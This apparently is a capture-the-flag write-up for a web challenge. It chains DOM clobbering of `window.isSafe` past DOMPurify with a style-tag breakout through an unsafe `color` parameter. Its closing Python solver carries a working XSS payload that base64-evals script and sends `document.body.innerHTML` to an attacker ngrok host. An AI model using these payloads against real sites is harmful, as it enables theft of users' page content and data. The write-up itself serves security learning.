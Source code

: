 The following code shows that you can XSS if `window.isSafe` is met.

```javascript
if (window.isSafe) {
    contentDiv.innerHTML = body;
} else {
    const sanitizedContent = DOMPurify.sanitize(body);
    contentDiv.innerHTML = sanitizedContent;
}
```

This can be done via **DOM Clobbering**. The heading is sanitized using DOMPurify and is inserted before the content is inserted.

```javascript
const heading = decodeURIComponent(`<%- heading -%>`);
const headingDiv = document.querySelector(".heading");
const content = DOMPurify.sanitize(heading);
headingDiv.innerHTML = content;
```

Because DOMPurify does not delete `id` attribute, we can control the value of `window.isSafe`. Hence, if the heading is `<a id='isSafe'>x</a>`, `window.isSafe` becomes truthy, and the content is inserted without sanitization.

#### Step 2: Getting the flag 

Now you can make the bot access the flag server in various ways, such as via an iframe, such as iframe, `window.open` or location change.

By setting the `color` parameters, you can inject any string here:

```html
<style>
    :root {
    --flag-color: {{ color|safe }};
    }
    /* snap */
</style>
```

You can close the `<style>` tag and inject a `<script>` tag. I sent the whole content of `document.body.innerHTML`, which contains the flag, to my server.

### Full Exploit

```python:solver.py
import base64
import requests

# URL = "http://localhost:4001/"
URL = "http://35.224.222.30:4001/"
LOCAL = "http://local:4002/flag"
# LOCAL = "http://localhost:4002/flag"
EVIL = "https://xxx.ngrok.app/"


js = f"""document.location.assign("{LOCAL}?color=</style><script>setTimeout(()=>document.location.assign('{EVIL}?x='%2Bbtoa(document.body.innerHTML)),1000)</script>")""".strip()
encoded = base64.b64encode(js.encode()).decode()

s = requests.session()
data = {
    "heading": "<a id='isSafe'>x</a>",
    "content": f"""<img src=X onerror="eval(atob('{encoded}'))">"""
}
r = s.post(URL + "visit", json=data)
print(r.text)
# r = s.get(URL + "convert", params=data)
```